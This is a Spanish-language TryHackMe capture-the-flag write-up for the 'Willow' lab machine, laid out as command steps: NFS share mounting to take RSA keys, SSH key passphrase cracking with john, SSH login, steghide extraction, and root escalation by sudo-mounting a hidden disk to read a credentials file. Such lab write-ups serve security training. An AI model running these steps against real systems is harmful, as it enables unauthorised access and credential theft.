TryHackMe
Medium
Linux
NFS
RSA
SSH
Steganography
sudo mount
Willow
NFS expone clave RSA; SSH con passphrase crackeada; flag en imagen via steghide; root con sudo mount en disco oculto.
cat4clysm
Herramientas utilizadas
nmap
mount
john
ssh2john
steghide
Scanning
root@kali:~$
nmap -sC -sV -p 22,111,2049,80 10.10.192.59 -n -Pn -oN targeted
Puerto 80 - Mensaje Hexadecimal

Convertimos el mensaje de hexadecimal a ASCII:

NFS - Claves RSA
root@kali:~$
showmount -e 10.10.192.59
mkdir /mnt/Willow
mount -t nfs 10.10.192.59:/var/failsafe /mnt/Willow -o nolock
ls /mnt/Willow
# rsa_keys
Usamos la clave privada RSA para descifrar el mensaje de la web y obtener id_rsa:

root@kali:~$
/usr/share/john/ssh2john.py id_rsa > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
root@kali:~$
ssh -i id_rsa 10.10.192.59
User Flag - Esteganografia
root@kali:~$
# En la maquina victima:
base64 user.jpg
# En la maquina atacante:
base64 -d user.64 > user.png
fim user.png
Escalada - Sudo mount + Disco oculto + Steghide
root@kali:~$
sudo -l
root@kali:~$
ls -l /dev
root@kali:~$
mkdir bkup
sudo /bin/mount /dev/hidde_backup /home/willow/bkup
cd bkup
cat creds.txt
root@kali:~$
su root
root@kali:~$
steghide extract -sf user.png
# passphrase: 7QvbvBTvwPspUK
Lecciones aprendidas
- NFS sin autenticacion expone archivos criticos como claves RSA del sistema.
- La flag de usuario puede estar oculta en imagenes mediante esteganografia con steghide.
- sudo mount sobre dispositivos ocultos puede revelar particiones con credenciales de root.